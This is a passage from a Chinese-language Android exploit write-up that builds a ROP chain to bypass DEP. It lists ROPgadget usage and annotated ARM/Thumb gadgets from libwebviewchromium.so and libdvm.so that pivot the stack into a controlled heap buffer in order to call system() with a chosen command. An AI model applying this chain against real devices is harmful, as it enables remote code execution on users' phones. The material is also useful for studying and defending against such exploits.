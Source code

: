 0x02 ROP Chain
=====

由于Android使用了DEP，因此Dalvik-heap上的内存不能用来执行，这就必须使用ROP技术，使PC跳转到一系列合法指令序列（Gadget），并由这些Gadget“拼凑”而成shellcode。这里我们将使用ROP Gadget调用system函数执行代码。

使用ROPGadget这个工具，在zygote加载的基础模块（如libc.so、libwebviewchromium.so、libdvm.so）上进行搜索，把arm code当做thumb code来搜索，可以增加更多的候选指令序列。

为了调用system函数，需要控制r0寄存器，指向我们预先布置的命令行字符串作为参数。这里需要使用Stack Pivot技术，将栈顶指针SP指向控制的Dalvik-heap堆中的数据，这将为控制PC寄存器、以及在栈上布置数据带来便利。利用

```
ROPgadget --thumb --binary libwebviewchromium.so

```

可找到如下Gadget

Gadget1
-------

为Stack Pivot作准备

in libwebviewchromium.so

```
70a93c:       682f            ldr     r7, [r5, #0]  #r5=STATIC_ADDRESS, r7=[STATIC_ADDRESS]=GADGET_BUFFER
70a93e:       4628            mov     r0, r5       #r0=STATIC_ADDRESS
70a940:       68b9            ldr     r1, [r7, #8] #r1=[GADGET_BUFFER+8]
70a942:       4788            blx     r1

```

或者

```
4fed02:       4628            mov     r0, r5           #r5 = STATIC_ADDRESS
4fed04:       682f            ldr     r7, [r5, #0]     #r7 = [STATIC_ADDRESS] = GADGET_BUFFER
4fed06:       f8d4 8048       ldr.w   r8, [r4, #72]   ; 0x48
4fed0a:       68b9            ldr     r1, [r7, #8]     #r1 = [GADGET_BUFFER+8]
4fed0c:       4788            blx     r1

```

因此，GADGET_BUFFER+8这个地址需要指向第二个Gadget

Gadget2
-------

Stack Pivot

in libdvm.so

```
664c4:       f107 0708       add.w   r7, r7, #8   #r7=r7+8=GADGET_BUFFER+8
664c8:       46bd            mov     sp, r7       #sp=GADGET_BUFFER+8
664ca:       bdb0            pop     {r4, r5, r7, pc}
# r4=[GADGET_BUFFER+8],r5=[GADGET_BUFFER+12],r7=[GADGET_BUFFER+16],pc=[GADGET_BUFFER+20], sp=GADGET_BUFFER+24

```
